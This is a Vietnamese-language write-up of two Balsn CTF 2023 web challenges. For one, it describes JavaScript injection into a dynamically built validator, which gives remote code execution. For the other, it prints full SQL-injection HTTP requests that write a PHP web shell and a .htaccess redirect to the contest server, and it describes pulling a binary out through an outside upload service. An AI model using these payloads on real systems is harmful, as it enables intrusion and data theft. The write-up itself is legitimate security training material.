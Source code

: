 ## Balsn CTF 2023 web writeup

### SaaS (solve: 19)
Vấn đề của bài này là ta control được 1 phần object truyền vào `validatorFactory`, dẫn đến ta kiểm soát được 1 phần function được tạo ra, từ đó khi function này được thực thi thì ta có thể inject js code vào để thực thi cùng.

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/6fb3f047-0822-4186-beb1-2440f1498daf)

Trace một tí ta sẽ đến đoạn này
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/392d4bab-dc39-470e-930a-c31bef444985)

`required` là một array được lấy từ object ban đầu mà ta truyền vào, đây là sink cuối. Vậy chỉ cần một post data như thế này ta sẽ thành công thực hiện RCE được server

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/941fff68-e619-406d-8189-90c622691c6b)

Ở phần request line thì `http://a.saas/whowilldothis/b3703f0b-c6a9-4ba6-b80b-32860238aaaa` là để server_name thỏa mãn `*.saas` trong khi host header sẽ được set là `easy++++++` nhằm bypass đoạn check của nginx

### Ginowa (solve: 13)
Bài này được setup với 1 proxy ở frontend thực hiện giao tiếp với api ở phía backend chủ yếu thông qua file `api.php`. Ở backend ta thấy 1 lỗi SQL Injection khá rõ ràng xuất phát từ việc dùng prepare statement sai cách

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/f9adedfe-4b4b-4145-aaf1-9d5904f35798)

Bài cho ta 3 thông tin đó là info.php ở frontend, backend và thông tin về các service đang chạy. Intended của bài là lợi dụng 1 việc `LOAD_FILE` có thể dùng với wildcard, từ đó đọc file binary ở server, reverse một chút và đọc được flag. Ở đây mình sẽ nói đến một cách làm khác của mình:

Do thấy được ta có quyền ghi file, nhưng file ghi lên bị xóa sau một khoản thời gian nhất định, ngay cả khi có thể spam request để liên tục ghi file đó lại sau khi bị xóa thì cũng không thể truy cập vào file shell đã ghi như cách thông thường để chạy nó được. Tới đây mình nghĩ ra cách ghi 1 file .htaccess lên server để chuyển hướng truy cập vào file php vừa ghi mỗi khi truy cập vào api.php, ta sẽ cho race 2 luồng ghi file a.php và luồng ghi file .htaccess lại, ở file a.php ta sẽ trả về 1 đoạn JSON hợp lệ cùng với "name" là kết quả của lệnh `shell_exec` để đọc được output của lệnh.

Upload file `a.php`:
```
GET /?id=<@urlencode>11111'+UNION+SELECT+'','','','<?php+echo+json_encode(["status"+=>+"ok","name"+=>"result:".shell_exec("dir C:\\")])+?>'+INTO+OUTFILE+'C:\\xampp\\htdocs\\a.php<@/urlencode> HTTP/1.1
Host: ginowa-1.balsnctf.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Upload .htaccess:
```
GET /?id=<@urlencode>11111'+UNION+SELECT+'','','','Redirect+301+/api.php+/a.php'+INTO+OUTFILE+'C:\\xampp\\htdocs\\.htaccess<@/urlencode> HTTP/1.1
Host: ginowa-1.balsnctf.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Race 2 luồng này ta sẽ đọc được kết quả từ lệnh dir, từ đó biết tên file PE. Sau đó mình upload file PE này lên https://bashupload.com/ bằng curl rồi tải về đọc, đưa vào IDA thấy được nó đang cố gắng mở một file `s` và thực hiện 1 hàm decrypt, thử dùng cách upload bằng curl cũ để upload cả file `s` cùng thư mục lên và tải về, sau đó chạy file PE ban đầu ta có được flag:

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d14ef92b-35e2-4330-ad94-3b7b9166cf06)
